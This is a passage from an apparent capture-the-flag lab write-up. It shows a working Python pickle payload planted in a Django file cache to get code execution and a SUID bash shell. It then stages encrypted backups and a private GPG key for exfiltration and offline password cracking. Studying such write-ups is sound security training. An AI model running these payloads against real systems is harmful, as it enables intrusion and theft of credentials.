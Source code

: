We will try to create a malicious cache file that will execute some code as the user `sandy`. We create a python script that will create a malicious cache file using `pickle` module:
```python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        cmd = (
            "bash -c 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'"
        )
        return (os.system, (cmd,))

filenames = [
    "/var/tmp/django_cache/"+"647c31ce560000c70911a27dc1f6ea1e.djcache",
    "/var/tmp/django_cache/"+"9521ccb242c5d9b2157674d30e05cc1b.djcache",
]


for filename in filenames:
    with open(filename, "wb") as f:
        pickle.dump(Exploit(), f)
```
This will create two malicious cache files that will copy `/bin/bash` to `/tmp/bash` and set the SUID bit on it.

When a search is performed on the web application, Django will look for a cache file in the cache directory. If it finds one, it will load it, if not it will create a new one. 

If we delete the cache files the application created, Django will load our malicious cache file and execute the code in it.

We run the script and then we delete the cache files the application created:
```bash
rm /var/tmp/django_cache/647c31ce560000c70911a27dc1f6ea1e.djcache
rm /var/tmp/django_cache/9521ccb242c5d9b2157674d30e05cc1b.djcache
```

We go to the `explore` page and search for the word `diego`. This will trigger Django to load our malicious cache file and execute the code in it.

We now have a SUID bash shell in `/tmp/bash`. We can use this to get a root shell:
```bash
/tmp/bash -p
whoami
```
```
sandy
```

We also find in `/var/www/HackNet` a directory called `backups` that contains some gpg encrypted sql files. We transfer those encrypted files and sandy's private key to our machine and we try to crack the password using `gpg2john` and `john`:
```bash
mkdir /tmp/hacknet && cd /tmp/hacknet
cp /var/www/HackNet/backups/* .
cp /home/sandy/.gnupg/private-keys-v1.d/armored_key.asc .
python3 -m http.server 8000
```
